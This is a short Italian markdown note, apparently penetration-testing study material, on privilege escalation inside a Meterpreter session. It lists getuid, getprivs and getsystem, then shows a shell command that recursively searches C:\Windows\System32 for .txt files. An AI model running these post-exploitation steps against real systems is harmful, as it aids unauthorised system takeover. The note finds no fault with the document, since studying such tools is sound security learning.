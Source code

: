 
## Privilege escalation
dopo aver ottenuto una sessione meterpeter, possiamo provare ad effettuare un privilege escalation con meterpeter
```bash
getuid     # mostra l'utente attuale
getprivs   # mostra i permessi dell'utente attuale
getsystem  # tenta di ottenere i massimi privilegi possibili
```
una volta dentro e con i privileggi massimi, possiamo muoverci dentro al sistema tranquillamente ad esempio cercando dei determinati file di configurazione .txt
```bash
shel
dir C:\Windows\System32\*.txt /s /b
```
- `dir` elenca tutte le cartelle
- `\*.txt` cerca tutti i .txt
- `/s` cerca ricorsivamente in tutte le sottocartelle
- `/b` usa il formato bare (solo percorso completo)
